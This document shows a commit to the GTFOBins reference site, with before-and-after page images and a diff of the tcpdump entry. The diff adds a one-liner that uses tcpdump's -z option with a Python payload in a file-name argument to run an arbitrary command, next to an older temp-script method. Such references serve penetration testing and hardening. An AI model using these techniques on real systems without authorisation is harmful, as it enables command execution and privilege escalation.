

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tcpdump.md, in a window 1280 px wide. Shown: the top 864 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update tcpdump (adding one-line with arbitrary command)

```diff
--- a/_gtfobins/tcpdump.md
+++ b/_gtfobins/tcpdump.md
@@ -5,12 +5,16 @@ description: |
   In recent distributions (e.g., Debian 10 and Ubuntu 18) AppArmor limits the `postrotate-command` to a small subset of predefined commands thus preventing the execution of the following.
 functions:
   command:
-    - code: |
+    - description: This requires several commands.
+      code: |
         COMMAND='id'
         TF=$(mktemp)
         echo "$COMMAND" > $TF
         chmod +x $TF
         tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
+    - descprition: One-liner to run arbitrary command leveraging python argument parser that does not require a space between the option -c and the value.
+      code: |
+        tcpdump -ln -i lo -w -c__import__\(\"os\"\).system\(\"id\"\) -W 1 -G 1 -z /usr/bin/python
   sudo:
     - code: |
         COMMAND='id'
```
